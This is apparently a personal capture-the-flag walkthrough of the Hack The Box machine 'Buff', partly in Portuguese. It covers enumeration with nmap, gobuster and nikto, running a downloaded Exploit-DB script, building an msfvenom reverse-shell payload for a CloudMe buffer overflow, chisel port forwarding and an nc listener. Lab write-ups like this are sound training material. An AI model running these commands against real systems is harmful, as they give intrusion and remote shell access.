 Buff
========================

# Enumeration

    sudo nmap_enum buff.htb | tee nmap_output.txt
    
    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn 10.10.10.198 | tee nmap_udp_output.txt

    gobuster dir -u http://10.10.10.198:8080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -t 16 -o "tcp_port_protocol_jeeves_gobuster.txt"
    
    gobuster dir -u http://10.10.10.198:8080 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,jsp" -k -t 16 -o "tcp_port_protocol_gobuster_common_list.txt"

    nikto -host http://10.10.10.198:8080 -T x 6 | tee nikto_output.txt

![qownnotes-media-RQDWGZ](../../../media/qownnotes-media-RQDWGZ.png)


    searchsploit gym
    
![qownnotes-media-NGQrEe](../../../media/qownnotes-media-NGQrEe.png)

# Exploitation

    wget https://www.exploit-db.com/download/48506 -O exploit.py
    python2 exploit.py http://10.10.10.198:8080/
    
![qownnotes-media-ArYemM](../../../media/qownnotes-media-ArYemM.png)

![qownnotes-media-iaWwDr](../../../media/qownnotes-media-iaWwDr.png)

# Privilege Escalation


Aqui o aprendizado foi interessante, porque a ideia foi encontrar um servico que tivesse uma vulnerabilidade que permite ao atacante realizar a escalacao de privilegio. Os passos abaixo nao funcionaram, mas veja mais abaixo:

    whoami /priv
    
    systeminfo
    
    	
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
    
    reg query HKLM /f password /t REG_SZ /s
    
Com esse checklist nao chegamos a lugar algum, porem navegando nos diretorios da maquina alvo encontramos um servico que estava rodando em modo administrastivo e que possui uma vulnerabilidade de BOF (buffer overflow)...

    cd c:\users\shaun\downloads
    
![qownnotes-media-vnobPo](../../../media/qownnotes-media-vnobPo.png)

![qownnotes-media-LfkpyM](../../../media/qownnotes-media-LfkpyM.png)


    searchsploit cloudme

![qownnotes-media-eHhEmn](../../../media/qownnotes-media-eHhEmn.png)

    msfvenom -p windows/shell_reverse_tcp -f python LHOST=10.10.14.8 LPORT=8084

Eu copiei o output do comando anterior e coloquei no primeiro exploit que estava relacionado no output do searchsploit:

    cat privesc_exploit.py

Fiz um redirecionamento de portas, pois identifiquei que esse servico estava escutando na porta local 127.0.0.1:8888

![qownnotes-media-xIrWQz](../../../media/qownnotes-media-xIrWQz.png)


    ./chisel.exe client 10.10.14.8:9999 R:5000:127.0.0.1:8888

Na maquina do atacante:

    ./chisel server -p 9999 --socks5 --reverse
    
    
Note que com esse exploit eu executei na interface local da maquina do atacante dado o redirrecionamento de porta do chisel:

    python privesc_exploit.py
    
    
    
    nc -nlvp 8084
 
 ![qownnotes-media-ShhjMz](../../../media/qownnotes-media-ShhjMz.png)
